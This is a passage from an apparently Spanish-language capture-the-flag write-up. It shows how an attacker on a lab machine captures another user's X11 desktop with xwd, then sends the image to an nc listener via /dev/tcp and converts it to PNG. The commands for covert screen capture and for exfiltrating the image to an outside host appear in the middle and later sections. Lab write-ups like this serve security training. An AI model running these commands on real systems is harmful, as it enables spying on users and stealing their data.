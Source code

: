 ```bash
        0xe00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xe00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0xa00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0
```

### Taking a screenshot of another user's display

Al ejecutar el comando `xwd -root -screen -silent -display :0 > screenshot.xwd`, hemos tomado una captura de pantalla de la sesión del usuario **ross** en el servidor X11. La imagen se ha guardado en el archivo **screenshot.xwd**.

Este archivo contiene la imagen de la pantalla del usuario **ross**, la cual puede ser útil para obtener más información visual sobre su actividad. Ahora, para visualizar la imagen, podemos convertirla a un formato más estándar como **PNG** o **JPEG** utilizando una herramienta como **xwdtopnm** o **convert**.

```bash
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ ls -l screenshot.xwd 
-rw-r--r-- 1 alex alex 1923179 Feb 15 23:49 screenshot.xwd
```

Nos pondremos en escucha con `nc` para recibir el archivo `screenshot.xwd`.

```bash
❯ nc -nlvp 443 > screenshot.xwd
listening on [any] 443 ...
```

Enviaremos el archivo mediante el `/dev/tcp`.

```bash
alex@squashed:/tmp$ cat screenshot.xwd > /dev/tcp/10.10.16.3/443
```

Al convertir el archivo `screenshot.xwd` a un formato más accesible como **PNG** utilizando el comando `convert screenshot.xwd screenshot.png`, ahora tenemos una imagen que podemos visualizar. Al abrirla con el comando `open screenshot.png`, podemos observar la captura de pantalla de la sesión del usuario **ross** en su escritorio.

```bash
❯ ls -l screenshot.xwd
.rw-rw-r-- kali kali 1.8 MB Sun Feb 16 00:50:04 2025  screenshot.xwd
❯ file screenshot.xwd
screenshot.xwd: X-Window screen dump image data, version X11, "xwdump", 800x600x24, 256 colors 256 entries
❯ convert screenshot.xwd screenshot.png
❯ file screenshot.png
screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced
❯ open screenshot.png
```
